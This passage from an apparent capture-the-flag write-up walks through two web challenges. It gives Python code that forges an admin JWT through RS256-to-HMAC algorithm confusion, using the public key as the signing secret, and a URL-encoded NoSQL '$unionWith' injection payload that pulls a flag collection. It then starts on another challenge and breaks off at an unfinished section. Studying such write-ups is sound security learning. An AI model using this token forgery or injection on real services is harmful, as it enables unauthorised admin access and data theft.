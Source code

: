 ```py
    new_signature = base64.urlsafe_b64encode(hmac.HMAC(public_key, b'.'.join([header, new_payload]), hashlib.sha256).digest()).strip(b"=")
    
    return b'.'.join([header, new_payload, new_signature]).decode()

def solve():
    public_key = open("public_key.pem").read()
    new_token = jwt_alg_confusion("eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF1YWNrIiwicm9sZSI6InVzZXIiLCJleHAiOjE3NDY5MDk2ODB9.PFELiAt8HOJl4OJevczHJ7hRyB20XKVlDFoOFGSShgD4rdAycjrq27mmJwwWeKcIcni2Pqyna-y3Cb-7-LC54kWxKNI33epNd6cVI043GKw3iCTr-MLGD4-zrpe_tREDptJrgo2wAhVMmeqNMchB4xu3Sq1QsOY1Wl62nnIlpm8ABDZ8B_4HXxhv1L4q0gWisPG0M2KYXcM24HmGjoUj1R16Tx0uea7XxzB5udQ6ralGAvUX7t9nXKMmEEnYAu9NMUWpDGbKZFToeY90Ww2tBEdnZU5tb7LTXLNDhJ0HeY0Cgcgf14c_0TidGUGaaT47b0CAygZtj9NmWnmPxnqc1g", {
  "username": "admin_user",
  "role": "admin",
  "exp": 1746909680 
}, public_key)
    print(new_token)

if __name__ == "__main__":
    solve()
```

This allows us to sign our forged token using the public key. Therefore we can login as admin:

![Admin page of bug tracker](/DDC25National/bugAdmin.png)

On the admin page we can query the database. By just querying anything and going to the proxy/network history we can see a call like ``/admin_search?query=``.
In order to get the flag we can perform NoSQL injection here and extract the flag using the following payload:
``[{"$unionWith": "flags"}]`` that we then need to URL encode to ``/admin_search?query=%5B%7B%22%24unionWith%22%3A%20%22flags%22%7D%5D``

And this gets us the flag: ``DDC{c0nfu53d_4nd_vuln3r4bl3}``
![Flag for bug tracker](/DDC25National/bugFlag.png)



### EvilPlot Parking Group
###### 142pts - 17 solves
> YOOOO!
> Der er en date på vej – og jeg har NUL gæsteparkeringer tilbage. Hvis der ikke kan parkeres, er aftenen totalt ødelagt.
> Der må være et hul i det her system. Måske kan du “låne” nabo Bentes mail og rippe hende for gæsteparkeringer...
> Der må være et eller andet sted på siden, hvor vi kan finde en genvej – måske en URL, som de fleste ikke lige tænker over at tjekke? Prøv at kigge alle de steder, der kunne give mening.
> Skynd dig… bilen er lige om hjørnet.
TODO WRITE PROPERLY

After logging in with a user that we have registered:
![EvilPlot Parking Group homepage](/DDC25National/parkingHome.png)
